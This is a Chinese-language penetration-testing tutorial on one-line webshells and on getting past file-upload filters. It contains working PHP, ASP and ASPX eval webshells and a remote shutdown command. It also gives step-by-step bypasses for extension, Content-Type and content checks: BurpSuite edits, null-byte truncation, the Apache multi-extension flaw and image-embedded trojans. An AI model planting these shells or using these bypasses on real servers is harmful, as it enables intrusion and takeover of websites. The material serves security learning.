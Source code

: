 ## 一句话木马
***
### 1 以php为例
***
在渗透测试中，测试人员往往会上传一个一句话木马到服务器上从而获取系统权限。

    <?php
    @eval($_POST['s']);
    ?>

这句话的意思： 以php代码的形式，执行 method 为 POST，键为 s 的字符串。

@ 函数报错 不显示

eval() 使后面的字符串转成php代码执行。

[$_POST]( https://www.w3school.com.cn/php/php_forms.asp ) 用于收集来自method = “post”的表单的值。

表单域的名称会自动成为 $_POST 数组中的键

$_POST[‘s’]  全局变量中 

键： key = ‘s’,  

值： value = ‘echo 22’(可以是任意形式的php代码)

也就是说，可以post任意形式的php代码到web中。

冰蝎 value 开发 形成工具。

***
### 2 使用条件
***
1. 木马可以上传到服务器，且免杀。

2. 知道木马的URL。

3. 木马文件正常运行。

接下来，我们只需要向木马文件发送请求，就可以成功入侵该服务器。

以上述PHP语句为例，我们可以向它发送一个PHP语句，它便会在服务器上运行。如果我们向一台Windows系统的服务器发送"system('shutdown -s -t 0');"便可以控制这台服务器关机，如果是Linux系统的话则会稍微麻烦一点，我们首先需要获取root权限，然后才能执行关机命令。

这种木马的优点就是体积小、隐蔽性好。而相应的缺点就是过于简单，容易被网站管理员或杀毒软件查杀，且必须知道服务器所使用的语言环境，如果服务器使用的是jsp，你上传的是PHP，那么则无法成功入侵。

***

### 3 webshell

***

WebShell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WE目录下正常的网页文件混在一起，然后就可以使用浏览器或工具来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的。

通常来说，上传一句话木马通过中国菜刀连接是比较简便地拿到服务器的方法。菜刀可以连接asp、aspx、php、jsp的一句话木马。

    asp：
    <%eval request("pass")%>

    aspx:
    <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>

    php:
    <?php @eval($_POST['pass']);?>

***

### 4 防御 上传文件过滤

***
通常会有文件类型限制、文件大小限制等过滤方式。文件类型限制最为常见，一般有前台文件扩展名检测、服务器端扩展名检测、content-type 参数检测或文件内容检测。

#### 前台脚本检测扩展名

当用户在客户端选择文件点击上传的时候，客户端还没有向服务器发送任何消息，就对本地文件进行检测来判断是否是可以上传的类型，这种方式称为前台脚本检测扩展名。

绕过前台脚本检测扩展名，就是将所要上传文件的扩展名更改为符合脚本检测规则的扩展名，通过BurpSuite工具，截取数据包，并将数据包中文件扩展名更改回原来的，达到绕过的目的。

#### Content-Type文件类型检测

Content-Type，内容类型，是网页请求中附带的参数，用于定义网络文件的类型和网页的编码，决定文件接收方将以什么形式、什么编码读取这个文件，这就是经常看到一些Asp网页点击的结果却是下载到的一个文件或一张图片的原因。

ContentType 一般参数有

application/x-cdf 应用型文件
text/HTML 文本
image/JPEG jpg 图片
image/GIF gif图片
当浏览器在上传文件到服务器的时候，服务器对说上传文件的 Content-Type 类型进行检测，如果是白名单允许的，则可以正常上传，否则上传失败。绕过 Content—Type 文件类型检测，就是用 BurpSuite 截取并修改数据包中文件的 Content-Type 类型，使其符合白名单的规则，达到上传的目的。

#### 服务器端扩展名检测

当浏览器将文件提交到服务器端的时候，服务器端会根据设定的黑白名单对浏览器提交上来的文件扩展名进行检测，如果上传的文件扩展名不符合黑白名单的限制，则不予上传，否则上传成功。

#### 文件内容检测

一般文件内容验证使用getimagesize()函数检测，会判断文件是否是一个有效的文件图片，如果是，则允许上传，否则的话不允许上传。所以经常要将一句话木马插入到一个【合法】的图片文件当中，然后用中国菜刀远程连接。

***

### 5 绕过

***
### a 前台过滤绕过

#### 利用00截断上传绕过  前台检测

比如某网站的上传点采用了前端扩展名检测，只允许上传图片文件，而我们要上传一个php木马，可以按照以下步骤

php木马伪装jpg文件

先编写一个一句话木马，命名为【lubr.php.jpg】，因为扩展名检测是从文件名的右边往左读的，当读到第一个【. 】的时候，便通过扩展名确定这个文件的类型。这里就将 php 文件伪装成了jpg 文件。

BurpSuite拦截改2e为00

开启 BurpSuite 的【proxy】 功能，在选择 【lubr.php.jpg】 文件后，点击上传。

这时上传文件的数据包不会直接发往服务器，而是要经由 Burp 来发送，我们在这里可以查看和修改数据包的内容。

点击hex查看十六进制源码， 2e 改为 00。forward。

#### 截断改扩展名绕过  前台检测

与00截断类似，此方法也是通过截断数据包做修改来实现的。如果直接上传php文件，会被拦截。

先写一个php一句话木马，然后在这里命名为 lubr.jpg，而不是php文件

在BurpSuite中会抓到截取的数据包，在数据包中将所上传的文件后缀名由【.jpg】改为【.php】，点击【forward】，传递数据包，前台即可提示，上传【lubr.php】成功。

#### 绕过Content-Type检测文件类型上传

Content-Type如果为【application/octet-stream】，这一般是可运行程序（木马）的类型，因此会拒绝上传。但如果我们将其改为【image/gif】图片类型，可能就能够绕过该检测。

在BurpSuite中会抓到截取的数据包，在数据包中将所上传的文件的Content-Type由【application/octet-stream】改为【image/gif】

***
### b 服务器过滤绕过

#### Apache解析漏洞
Apache 识别文件类型是从右向左识别的，如果如遇不认识的扩展名会向前一次识别，直到遇到能识别的扩展名，因为Apache认为一个文件可以拥有多个扩展名，哪怕没有文件名，也可以拥有多个扩展名。这种漏洞存在于使用module模式与php结合的所有版本的Apache。

假如某网站刚好使用了有解析漏洞版本的Apache，而且其对服务器端对【.php】文件直接上传做了过滤。

因为服务器端对【.php】上传做了过滤，因此无论怎么用BurpSuite修改都不能上传成功。

如果将该木马命名为 【lubr.php.adc】，则显示上传成功。

因为服务器端黑名单只限制了几种扩展名的上传，而其他扩展名都是合法的，不论这种扩展名是否有效，而apache却能识别无效的扩展名并不予解析，这种不对称的扩展名识别造成了上传漏洞的产生。

菜刀也不识别【.abc】，直接解析【.php】，连接成功。

#### 图片马

随便找一个图片，将其与要上传的木马置于同一文件夹下
打开cmd，进入该文件夹，输入

copy doram.jpg/b+lubr.php/a xiaoma.jpg

将【lubr.php】插入到【doram.jpg】中。其中【xiaoma.jpg】是插入后的文件。

用记事本打开【xiaoma.jpg】，发现木马插入到了文件最后。

将文件名改为【xiaoma.jpg.php】，然后上传成功，菜刀连接。

以上就是几种检测情况的绕过方法，真实情况下需各种方式配合使用。

***

